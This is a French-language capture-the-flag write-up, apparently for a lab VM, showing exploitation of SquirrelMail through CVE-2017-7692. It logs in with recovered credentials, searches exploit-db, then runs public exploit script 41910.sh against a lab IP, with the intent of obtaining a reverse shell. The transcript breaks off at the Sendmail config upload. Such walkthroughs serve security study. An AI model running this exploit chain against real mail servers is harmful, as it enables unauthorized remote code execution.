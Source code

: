 ### SquirrelMail - Exploitation de la CVE-2017-7692

La connexion au Webmail est possible grâce au couple d'identifiants ```amy:dolphins``` trouvé auparavant.

![Affichage de l'image CTF5_Squirrel1.png](images/CTF5_Squirrel1.png)

On y trouve un mail envoyé par Patrick, avec à l'intérieur le mot de passe Drupal d'Amy, mais rien d'autre d'intéressant.

![Affichage de l'image CTF5_Squirrel2.png](images/CTF5_Squirrel2.png)

Parmi la liste d'exploits disponibles pour SquirrelMail, un seul d'entre eux semble « compatible » avec le setup actuel (version < 1.4.22).

```console
root@blinils:~# searchsploit squirrelmail | grep 1.4
 ---------------------------------------------------------------------------------- 
| Exploit Title                                                                    |
 ---------------------------------------------------------------------------------- 
| SquirrelMail 1.4.2 Address Add Plugin - 'add.php' Cross-Site Scripting           |
| SquirrelMail 1.4.x - Folder Name Cross-Site Scripting                            |
| SquirrelMail 3.1 - Change Passwd Plugin Local Buffer Overflow                    |
| SquirrelMail < 1.4.22 - Remote Code Execution                                    |
| SquirrelMail < 1.4.5-RC1 - Arbitrary Variable Overwrite                          |
| SquirrelMail < 1.4.7 - Arbitrary Variable Overwrite                              |
| Squirrelmail 1.4.x - 'Redirect.php' Local File Inclusion                         |
 ---------------------------------------------------------------------------------- 
```

La CVE-2017-7692 [a parfaitement été décrite ici](https://legalhackers.com/advisories/SquirrelMail-Exploit-Remote-Code-Exec-CVE-2017-7692-Vuln.html) par le concepteur de l'exploit, [Dawid Golunski](https://twitter.com/dawid_golunski) ; inutile donc de paraphraser, toutes les informations se trouvent sur son site LegalHackers. Grâce au couple d'identifiants ```amy:dolphins``` trouvé auparavant, un _reverse shell_ sera créé lors de l'exécution de l'exploit.

```console
root@blinils:~# cp /usr/share/exploitdb/exploits/linux/remote/41910.sh .

root@blinils:~# ./41910.sh http://192.168.56.101/mail/
bash: ./41910.sh: /bin/bash^M: bad interpreter: No such file or directory

root@blinils:~# sed -i -e 's/\r$//' 41910.sh
root@blinils:~# ./41910.sh http://192.168.56.101/mail/

--snip--
SquirrelMail <= 1.4.23 Remote Code Execution PoC Exploit (CVE-2017-7692)

SquirrelMail_RCE_exploit.sh (ver. 1.0)

Discovered and coded by 

Dawid Golunski (@dawid_golunski)
https://legalhackers.com

ExploitBox project:
https://ExploitBox.io

[*] Enter SquirrelMail user credentials
user: amy
pass: dolphins

[*] Logging in to SquirrelMail at http://192.168.56.101/mail/

[*] Uploading Sendmail config

```